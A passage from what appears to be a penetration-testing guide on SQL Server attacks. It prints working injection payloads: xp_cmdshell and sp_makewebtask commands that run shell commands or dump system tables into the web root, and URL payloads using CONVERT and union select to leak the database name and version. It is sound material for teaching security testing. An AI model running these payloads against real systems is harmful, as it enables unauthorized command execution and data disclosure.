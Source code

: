 
Let's see now some examples of specific SQL Server attacks that use the
aforementioned functions. Most of these examples will use the **exec**
function.

Below we show how to execute a shell command that writes the output of
the command *dir c:\\inetpub* in a browseable file, assuming that the
web server and the DB server reside on the same host. The following
syntax uses xp_cmdshell:

```
 exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\wwwroot\test.txt'--
```

Alternatively, we can use sp_makewebtask:

```
 exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 'select * from master.dbo.sysobjects'--
```

A successful execution will create a file that can be browsed by the pen
tester. Keep in mind that sp_makewebtask is deprecated, and, even if it
works in all SQL Server versions up to 2005, it might be removed in the
future.

In addition, SQL Server built-in functions and environment variables are
very handy. The following uses the function **db_name()** to trigger an
error that will return the name of the database:

    /controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20db_name())

Notice the use of
[convert](http://msdn.microsoft.com/library/en-us/tsqlref/ts_ca-co_2f3o.asp):

    CONVERT ( data_type [ ( length ) ] , expression [ , style ] )

CONVERT will try to convert the result of db_name (a string) into an
integer variable, triggering an error, which, if displayed by the
vulnerable application, will contain the name of the DB.

The following example uses the environment variable '''@@version ''',
combined with a "union select"-style injection, in order to find the
version of the SQL Server.

    /form.asp?prop=33%20union%20select%201,2006-01-06,2007-01-06,1,'stat','name1','name2',2006-01-06,1,@@version%20--

And here's the same attack, but using again the conversion trick:

```
 /controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20@@VERSION)
```

Information gathering is useful for exploiting software vulnerabilities
at the SQL Server, through the exploitation of an SQL-injection attack
or direct access to the SQL listener.

In the following, we show several examples that exploit SQL injection
vulnerabilities through different entry points.

